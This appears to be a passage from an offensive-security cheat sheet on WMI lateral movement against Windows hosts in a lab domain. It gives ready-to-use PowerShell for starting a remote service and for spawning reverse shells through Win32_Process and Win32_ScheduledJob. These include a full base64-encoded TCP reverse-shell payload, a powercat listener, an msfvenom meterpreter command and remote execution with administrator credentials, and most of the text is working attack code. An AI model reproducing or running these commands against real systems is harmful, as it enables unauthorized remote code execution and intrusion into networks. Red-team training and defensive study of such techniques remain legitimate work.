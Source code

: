 ```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator" | Invoke-WmiMethod -Name StartService
```

Get a reverse shell using [Win32_Process](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-process):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Execute the process
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell" -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator"
```

Get a reverse shell using [Win32_ScheduledJob](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/create-method-in-class-win32-scheduledjob):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Execute the process at 7:52pm 
$wmi_sched_job = [wmiclass]"\\$env:computername\root\cimv2:win32_scheduledjob"
$time = $wmi_sched_job.ConvertFromDateTime("7:52pm")
$task = "c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell"
(Get-WmiObject -List win32_scheduledjob -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator").Create($task,$time)
```

